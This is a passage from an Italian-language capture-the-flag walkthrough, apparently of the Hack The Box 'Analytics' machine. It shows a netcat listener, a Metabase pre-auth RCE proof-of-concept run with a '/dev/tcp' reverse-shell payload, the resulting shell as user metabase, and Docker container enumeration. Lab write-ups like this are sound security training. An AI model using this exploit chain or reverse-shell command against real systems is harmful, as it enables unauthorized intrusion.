 ```shell
nc -lnvp 9001
```

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/Analytics/metabase-pre-auth-rce-poc]
└──╼ $python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "sh -i >& /dev/tcp/10.10.14.7/9001 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```

Risultato:

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/Analytics]
└──╼ $nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.233 56390
sh: can't access tty; job control turned off
/ $ pwd
/
/ $ whoami
metabase
/ $ 
```

## Enumerazione interna

Fin da subito possiamo capire che ci troviamo all'intrno di un docker container grazie alla presenza del file .dockerenv

```shell
/ $ ls -al
total 92
drwxr-xr-x    1 root     root          4096 Aug  3 10:33 .
drwxr-xr-x    1 root     root          4096 Aug  3 10:33 ..
-rwxr-xr-x    1 root     root             0 Aug  3 10:33 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29  2023 app
drwxr-xr-x    1 root     root          4096 Jun 29  2023 bin
drwxr-xr-x    5 root     root           340 Aug  3 10:33 dev
drwxr-xr-x    1 root     root          4096 Aug  3 10:33 etc
drwxr-xr-x    1 root     root          4096 Aug  3  2023 home
drwxr-xr-x    1 root     root          4096 Jun 14  2023 lib
drwxr-xr-x    5 root     root          4096 Jun 14  2023 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3  2023 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14  2023 mnt
drwxr-xr-x    1 root     root          4096 Jun 15  2023 opt
drwxrwxrwx    1 root     root          4096 Aug  7  2023 plugins
dr-xr-xr-x  211 root     root             0 Aug  3 10:33 proc
drwx------    1 root     root          4096 Aug  3  2023 root
drwxr-xr-x    2 root     root          4096 Jun 14  2023 run
drwxr-xr-x    2 root     root          4096 Jun 14  2023 sbin
drwxr-xr-x    2 root     root          4096 Jun 14  2023 srv
dr-xr-xr-x   13 root     root             0 Aug  3 10:33 sys
drwxrwxrwt    1 root     root          4096 Aug  3  2023 tmp
drwxr-xr-x    1 root     root          4096 Jun 29  2023 usr
drwxr-xr-x    1 root     root          4096 Jun 14  2023 var
```

